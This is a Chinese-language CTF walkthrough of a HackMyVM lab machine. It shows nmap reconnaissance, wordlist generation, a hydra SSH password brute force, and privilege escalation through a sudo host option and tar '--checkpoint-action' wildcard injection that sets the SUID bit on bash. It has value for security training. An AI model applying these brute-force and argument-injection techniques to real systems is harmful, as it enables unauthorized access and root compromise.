






# 信息搜集

主机发现

```csharp
┌──(kali㉿kali)-[~]
└─$ nmap -sn 192.168.21.0/24   
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-15 22:58 EDT
Nmap scan report for 192.168.21.1 (192.168.21.1)
Host is up (0.0019s latency).
MAC Address: CC:E0:DA:EB:34:A2 (Baidu Online Network Technology (Beijing))
Nmap scan report for 192.168.21.2 (192.168.21.2)
Host is up (0.000068s latency).
MAC Address: 04:6C:59:BD:33:50 (Intel Corporate)
Nmap scan report for 192.168.21.6 (192.168.21.6)
Host is up (0.10s latency).
MAC Address: C2:AB:39:9E:98:94 (Unknown)
Nmap scan report for 192.168.21.7 (192.168.21.7)
Host is up (0.00021s latency).
MAC Address: 08:00:27:E5:8B:64 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Nmap scan report for 192.168.21.10 (192.168.21.10)
Host is up.
Nmap done: 256 IP addresses (5 hosts up) scanned in 2.79 seconds
```

端口扫描

```csharp
┌──(kali㉿kali)-[~]
└─$ nmap --min-rate 10000 -p- 192.168.21.7          
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-15 22:58 EDT
Nmap scan report for 192.168.21.7 (192.168.21.7)
Host is up (0.00039s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:E5:8B:64 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 2.05 seconds
                                                                
┌──(kali㉿kali)-[~]
└─$ nmap -sT -sV -O -p22,80 192.168.21.7  
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-15 22:59 EDT
Nmap scan report for 192.168.21.7 (192.168.21.7)
Host is up (0.00030s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5 (protocol 2.0)
80/tcp open  http    nginx 1.18.0
MAC Address: 08:00:27:E5:8B:64 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|router
Running: Linux 4.X|5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 4.15 - 5.19, OpenWrt 21.02 (Linux 5.4), MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.66 seconds
```

# 漏洞利用

目录扫描，什么也没扫到

```csharp
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://192.168.21.7 -w SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-big.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.21.7
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/assets               (Status: 403) [Size: 153]
Progress: 1185254 / 1185255 (100.00%)
===============================================================
Finished
===============================================================
```

删除掉disabled



还找到一段base64



解码



尝试输入到页面中



因为目录扫描没扫到东西，从页面生成字典

```csharp
┌──(kali㉿kali)-[~]
└─$ cewl http://192.168.21.7 -w user.txt -d 4 -m 2  
CeWL 6.2.1 (More Fixes) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
```

尝试ssh

```csharp
┌──(kali㉿kali)-[~]
└─$ hydra -L user.txt -p '!ts-bl4nk' ssh://192.168.21.7
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-04-15 23:20:33
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 12 tasks per 1 server, overall 12 tasks, 12 login tries (l:12/p:1), ~1 try per task
[DATA] attacking ssh://192.168.21.7:22/
[22][ssh] host: 192.168.21.7   login: po   password: !ts-bl4nk
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-04-15 23:20:37
┌──(kali㉿kali)-[~]
└─$ ssh po@192.168.21.7
The authenticity of host '192.168.21.7 (192.168.21.7)' can't be established.
ED25519 key fingerprint is SHA256:hyaH0n5p7+5xBVQEL/hRIeOVRNWsLv8qjefRknYQi6Q.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:15: [hashed name]
    ~/.ssh/known_hosts:17: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.21.7' (ED25519) to the list of known hosts.
po@192.168.21.7's password: 
Linux hostname 5.10.0-13-amd64 #1 SMP Debian 5.10.106-1 (2022-03-17) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
po@hostname:~$
```

# 提权

看一下有什么

```csharp
po@hostname:~$ sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for po: 
Sorry, user po may not run sudo on hostname.
po@hostname:~$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/umount
/usr/bin/chsh
/usr/bin/su
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/mount
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
po@hostname:~$ /usr/sbin/getcap -r / 2>/dev/null
/usr/bin/ping cap_net_raw=ep
po@hostname:~$ cat /etc/passwd | grep /bin/bash
root:x:0:0:root:/root:/bin/bash
po:x:1000:1000::/home/po:/bin/bash
oogway:x:1001:1001::/home/oogway:/bin/bash
```

上传一下脚本



提权

```csharp
po@hostname:~$ sudo -u oogway -h HackMyVM /bin/bash
sudo: unable to resolve host HackMyVM: Name or service not known
oogway@hostname:/home/po$ 
```

user.txt

```csharp
oogway@hostname:~$ cat user.txt 
081ecc5e6dd6ba0d150fc4bc0e62ec50
```

看一下有什么



提权

```csharp
oogway@hostname:/opt/secret$ echo 'chmod +s /bin/bash' > shell.sh
oogway@hostname:/opt/secret$ chmod +x shell.sh
oogway@hostname:/opt/secret$ touch -- '--checkpoint=1'
oogway@hostname:/opt/secret$ touch -- '--checkpoint-action=exec=sh shell.sh'
oogway@hostname:/opt/secret$ /bin/bash -p
bash-5.1# id
uid=1001(oogway) gid=1001(oogway) euid=0(root) egid=0(root) groups=0(root),1001(oogway)
```

root.txt

```csharp
bash-5.1# cat root.txt 
d5806296126a30ceebeaa172ff9c9151
```